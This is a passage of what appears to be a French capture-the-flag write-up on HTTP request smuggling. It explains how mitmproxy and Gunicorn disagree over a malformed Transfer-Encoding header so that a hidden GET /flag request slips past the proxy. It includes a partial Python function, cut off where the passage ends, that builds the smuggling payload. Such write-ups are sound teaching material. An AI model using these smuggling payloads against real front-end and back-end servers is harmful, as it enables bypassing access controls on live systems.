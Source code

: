 La valeur `chunkedyolo` est acceptée comme valide par *mitmproxy* qui va considérer la requête pour `/flag` comme étant le body de la requête `POST /nawak` (on a un bloc de `0x2d` soit 45 octets).

De sont côté, *Gunicorn* considère l'entête `Transfer-Encoding` comme étant invalide. Il se base donc sur le `Content-Length` de 4 octets. Pour lui ces données de 4 octets sont `2d\r\n` et la suite est donc une requête valide.

La dernière requête à `/yolo` force `mitmproxy` à voir deux requêtes en entrées. Sans cette entrée il risquerait de ne pas nous renvoyer la réponse de *Gunicorn* pour `/flag` (il s'arrêterait à la réponse pour `/nawak`).

Maintenant la dernière problématique que j'ai eu c'est le block vide qui casse notre requête `/flag`. La seule technique consiste alors à spécifier un `Content-Length` : même si on est sur une requête GET ça passe, le body correspondant au bloc vide sera ignoré.

J'ai écrit le code Python suivant :

```python
import socket                                                                                                          
from urllib.parse import urlparse                                                                                      
                                                                                                                                                                                                          
def te_cl(url: str, encoding: str="chunked"):                                                                          
    parts = urlparse(url)                                                                                              
    real_request = (                                                                                                   
        f"GET {parts.path}{'?' if parts.query else ''}{parts.query} HTTP/1.1\r\n"                                      
        f"Host: {parts.netloc}\r\n"                                                                                    
        "Content-Length: 7\r\n"                                                                                        
        "\r\n"                                                                                                         
    )                                                                                                                  
                                                                                                                       
    hex_size = hex(len(real_request))[2:]                                                                              
    # Chunked is {hex size}\r\n{data}\r\n                                                                              
    # and 0\r\n\r\n at the end                                                                                         
    body = hex_size + "\r\n" + real_request + "\r\n0\r\n\r\n"                                                          
    wrapping_request = (                                                                                               
        f"POST /nawak HTTP/1.1\r\n"                                                                                    
        f"Host: {parts.netloc}\r\n"                                                                                    
        f"Transfer-Encoding: {encoding}\r\n"                                                                           
        f"Content-Length: {len(hex_size) + 2}\r\n"                                                                     
        "Connection: keep-alive\r\n"                                                                                   
        "\r\n"                                                                                                         
    )                                                                                                                  
                                                                                                                       
```